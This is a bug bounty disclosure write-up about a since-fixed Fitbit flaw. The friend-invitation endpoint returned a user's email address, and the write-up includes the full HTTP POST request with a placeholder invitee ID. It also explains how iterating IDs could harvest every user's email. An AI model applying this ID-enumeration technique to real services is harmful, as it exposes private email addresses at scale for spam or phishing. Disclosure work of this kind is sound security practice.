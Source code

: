 ```
Authorized Bug Bounty Disclosure
Target: Fitbit.com
Bug Type: User Email Disclosure / Privacy
Disclosure Verification: Fitbit Authorized Disclosure on 03-09-2018
```
### Summary
Identified a method to enumerate email addresses from any user :ok_hand:

### Notes:
Fitbit was extremely responsive and resolved this in a timely manner :two_hearts:

### What
Through manipulation of the friend request logic (where Fitbit users can add friends and chat with them), you are able to identify their email addresses even before they accept your friend request. Normally, email addresses are assumed to be completely private.

By programmatically submitting this request with randomized or systematic progression of the INVITEEID, it would be possible to farm all email addresses for the entire user base on Fitbit.com

### When
Bug discovered: 2016-04-01<br>
Bug Resolved: 2016-05-10

### How
Using the payload below at [fitbit.com/friends/friendInvitation], the server request responds with the users email address:<br>
```
POST /friends/friendInvitation HTTP/1.1
Host: www.fitbit.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: https://www.fitbit.com/invitations/accept/friend?senderId=[SENDERID]&csrfToken=[CSRFTOKEN]
Content-Length: 457
Cookie: cookieInfoConnection: keep-alive

inviteeId=[6DIGITID]

[Some info redacted]
```

The server response (meta):
```
Friend request sent to: [Email Address]
```

### Where
This was found when playing around with the friend modules :notes:

### Why
This is a logic issue that compromises privacy, and could be used to farm and identify all users on Fitbit.

### Links
<a href="www.twitter.com/_eagleEggs">Twitter</a>
